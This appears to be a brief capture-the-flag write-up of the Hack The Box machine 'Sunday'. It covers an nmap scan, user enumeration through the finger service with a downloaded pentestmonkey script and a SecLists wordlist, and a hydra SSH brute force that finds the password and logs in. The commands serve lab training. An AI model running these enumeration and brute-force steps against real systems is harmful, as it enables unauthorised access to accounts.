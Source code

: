 Sunday without metasploit

![Sunday](https://user-images.githubusercontent.com/55708909/91526264-db8e9000-e920-11ea-8de4-c2507f4099ee.png)


Starting with nmap scan:

Nmap -sC -sV -T4 -A -O -oA Sunday -p- 10.10.10.76


I saw finger service ruuning and i know this service give info about logged in user.

![Sunday_finger](https://user-images.githubusercontent.com/55708909/91526816-1b09ac00-e922-11ea-8178-b6a72a650e6a.png)

Pentest monkey has an awesome script for finger service , here is the  link

wget https://raw.githubusercontent.com/pentestmonkey/finger-user-enum/master/finger-user-enum.pl

Run it in order to know who logged into p.c. 

You need a good list for users and here is one from seclist github

wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Usernames/Names/names.txt

run these command and you will find appropriate users

![Sunday_finger_user](https://user-images.githubusercontent.com/55708909/91527570-a2a3ea80-e923-11ea-8177-96638e20536d.png)

i brute force  sssh and found password sunday

hydra -l sunny -P /usr/share/wordlists/rockyou.txt 10.10.10.76 ssh -s 22022

logged into system.

![Sunday_backup](https://user-images.githubusercontent.com/55708909/91528293-0f6bb480-e925-11ea-9081-a40875c121bf.png)

